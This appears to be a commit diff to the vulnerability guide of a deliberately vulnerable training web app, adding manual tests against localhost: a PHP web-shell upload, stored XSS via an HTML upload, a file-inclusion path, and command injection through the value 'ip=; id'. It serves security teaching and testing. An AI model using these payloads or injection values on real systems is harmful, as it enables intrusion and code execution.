

Before and after one commit to StealthMoud/Tarsius, a Markdown page: docs/VULNERABILITY_GUIDE.md, the part around one of its changes. Shown at 81% size. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
Update vulnerability guide with explicit exploitation paths
Documented unrestricted file upload paths to stored XSS and RCE. Also clarified the real command injection vector vs the proxy SSRF endpoint.

````diff
--- a/docs/VULNERABILITY_GUIDE.md
+++ b/docs/VULNERABILITY_GUIDE.md
@@ -84,6 +90,9 @@ This document lists all active vulnerabilities currently implemented in the Vuln
     ```
     *Result: The markup of the login page is fetched by the server and returned.*
 
+### SSRF vs Open Redirect
+*   **Note**: The `/profile/redirect?url=` parameter is an **Open Redirect**, not SSRF, because the server instructs the *browser* to fetch the URL via a `302 Found` response. For a true SSRF, look at `/api/avatar/fetch?url=`, where the *server* performs the request and echoes the content back (200 OK).
+
 ---
 
 ## 6. Open Redirect
@@ -92,3 +101,45 @@ This document lists all active vulnerabilities currently implemented in the Vuln
 *   **Location**: `/profile/redirect?url=` (GET Parameter)
 *   **Manual Test**:
     [http://127.0.0.1:3000/profile/redirect?url=https://google.com](http://127.0.0.1:3000/profile/redirect?url=https://google.com)
+
+---
+
+## 7. Unrestricted File Upload
+
+### Profile Picture Upload
+*   **Location**: `/api/upload` (POST Parameter: `profile_pic`)
+*   **Manual Test**:
+    ```bash
+    echo "<?php system(\$_GET['cmd']); ?>" > shell.php
+    curl -X POST -F "profile_pic=@shell.php" http://127.0.0.1:3000/api/upload
+    ```
+    *Result: The file is uploaded without extension validation.*
+
+> [!NOTE]
+> Since VulnApp is a **Node.js** application, it will not execute `.php` files directly. The vulnerability is the **Unrestricted File Upload** itself (allowing any file type).
+
+*   **Exploitation (Stored XSS)**:
+    You can upload an HTML file to execute JavaScript in the context of the domain:
+    ```bash
+    echo "<h1>Hacked</h1><script>alert(document.domain)</script>" > test.html
+    curl -X POST -F "profile_pic=@test.html" http://127.0.0.1:3000/api/upload
+    ```
+    Access it at: [http://127.0.0.1:3000/uploads/test.html](http://127.0.0.1:3000/uploads/test.html)
+
+*   **Exploitation (RCE via LFI)**:
+    If you want to "see" your shell content, use the LFI vulnerability:
+    ```bash
+    curl "http://127.0.0.1:3000/api/file?page=uploads/shell.php"
+    ```
+
+---
+
+## 8. Real RCE (Command Injection)
+
+If you are looking for a working `cmd` parameter for Remote Code Execution, use the **Command Execution** feature:
+*   **Location**: `/products/:id/refresh-stock` (POST Parameter: `ip`)
+*   **Manual Test**:
+    ```bash
+    curl -X POST -d "ip=; id" http://127.0.0.1:3000/products/1/refresh-stock
+    ```
+    *Result: The output of the `id` command is returned.*
````
Also changed, not shown: other parts of docs/VULNERABILITY_GUIDE.md (+6 -0 lines).
